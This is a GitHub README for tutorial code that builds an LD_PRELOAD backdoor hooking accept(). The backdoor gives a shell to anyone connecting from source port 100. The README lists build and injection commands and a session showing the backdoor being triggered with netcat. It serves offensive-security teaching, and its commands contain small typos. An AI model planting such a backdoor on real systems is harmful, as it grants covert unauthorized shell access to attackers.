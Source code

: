# LD_PRELOAD-accept-backdoor
Code samples to go along with the blog post on how to create an LD_PRELOAD backdoor hooking accept()

## Links to Tutorials
Blog: TODO: Populate later when blog post is live.

## Overview
This repo is used to provide some code samples to go along side a tutorial in the Secure Ideas blog. This code repo will provide you with the code for:

 * A simple What's My IP server binary target
 * The LD_PRELOAD accept() backdoor code
 * A make file to build it easily in a Kali VM.

The goal of this tutorial is to show how to use LD_PRELOAD to turn any process using accept() into a potential backdoor. The backdoor triggers when an attacker connects to the service from TCP port 100 and will turn the service into a shell instead.

## Building The Code Using Make.
Once you clone the repo, simply change into the directory and run ```make``` or ```make all``` to build both the target and the LD_PRELOAD hijack shared object. The make file also includes a help option to show all of the build targets:

```
kali@kali:~$ make help
Default Target:
         all => Build standard non-debug builds of the accept_backdoor.so and whats_my_ip

What's My IP Targets:
         whats_my_ip => Build the whats_my_ip server application

Accept_Backdoor Targets:
         accept_backdoor.so => Build the standard non-debug build of the accept_backdoor.so
         accept_backdoor.so_debug => Build debug LD_PRELOAD accept_backdoor.so shared object.
         accept_backdoor.so_nocolor => Build non-colorized debug LD_PRELOAD accept_backdoor.so shared object.

Maintance Targets:
         clean => delete the binaries.

kali@kali:~$
```

## Basic What's My IP Usage
Standard What's My IP build and usage:
```
kali@kali:~$ make whats_my_ip
gcc -O3 src/whats_my_ip.c -o whats_my_ip
kali@kali:~$ /whats_my_ip 

        ---===[ What's my IP Service ]===---

 [*] Server started on 0.0.0.0:1337
 [*] Client Connected: 127.0.0.1:37056
 [*] Client Connected: 127.0.0.1:37058
^C
 [*]Caught Ctrl+C, Shutting down the server..

kali@kali:~$
```

From another terminal, you can simple connect to the service using netcat to use it normally.

```
kali@kali:~$ nc 127.0.0.1 1337

 [*] IP Address: 127.0.0.1
 [*] Source Port: 37056

kali@kali:~$ nc 127.0.0.1 1337

 [*] IP Address: 127.0.0.1
 [*] Source Port: 37058

```

## Building and injecting accept_backdoor.so
```
kali@kali:~$ make accept_backdoor.so          
gcc -O3 -FPIC -shared src/accept_backdoor.c -o accept_backdoor.so  -ldl
kali@kali:~$ D_PRELOAD=./accept_backdoor.so ./whats_my_ip

        ---===[ What's my IP Service ]===---

 [*] Server started on 0.0.0.0:1337
```

Then from another terminal, use netcat to connect to the services from TCP source port 100 to open the backdoor:

```
kali@kali:~$ nc 127.0.0.1 1337

 [*] IP Address: 127.0.0.1
 [*] Source Port: 37060
 
kali@kali:~$ sudo nc -p 100 127.0.0.1 1337
       _____ ______________  ______  ______
      / ___// ____/ ____/ / / / __ \/ ____/
      \__ \/ __/ / /   / / / / /_/ / __/   
     ___/ / /___/ /___/ /_/ / _, _/ /___   
    /____/_____/\____/\____/_/ |_/_____/   
                                           
        ________  _________   _____        
       /  _/ __ \/ ____/   | / ___/        
       / // / / / __/ / /| | \__ \         
     _/ // /_/ / /___/ ___ |___/ /         
    /___/_____/_____/_/  |_/____/          

 [+] Backdoor activated! Enjoy!

ls
total 44
-rw-r--r-- 1 kali kali  1216 May 18 10:55 Makefile
-rwxr-xr-x 1 kali kali 15768 May 18 10:59 accept_backdoor.so
drwxr-xr-x 2 kali kali  4096 May 17 14:50 src
-rwxr-xr-x 1 kali kali 16880 May 18 10:56 whats_my_ip
whoami
kali
exit

kali@kali:~$
```
